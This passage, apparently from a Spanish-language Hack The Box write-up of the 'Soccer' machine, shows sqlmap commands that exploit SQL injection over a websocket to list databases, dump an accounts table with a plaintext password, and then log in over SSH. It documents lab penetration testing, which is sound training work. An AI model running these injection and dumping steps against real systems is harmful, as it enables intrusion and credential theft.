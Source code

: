 Listamos las `bases de datos`

```
# sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Listamos las `tablas` de la base de datos `soccer_db`

```
# sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

`Dumpeamos` el contenido de todas las `columnas` de la tabla `accounts`

```
# sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

Nos conectamos por `SSH` a la `máquina víctima`

```
# ssh player@10.129.142.211 
The authenticity of host '10.129.142.211 (10.129.142.211)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.142.211' (ED25519) to the list of known hosts.
player@10.129.142.211's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 12 19:06:20 UTC 2024

  System load:           0.0
  Usage of /:            70.1% of 3.84GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.129.142.211
```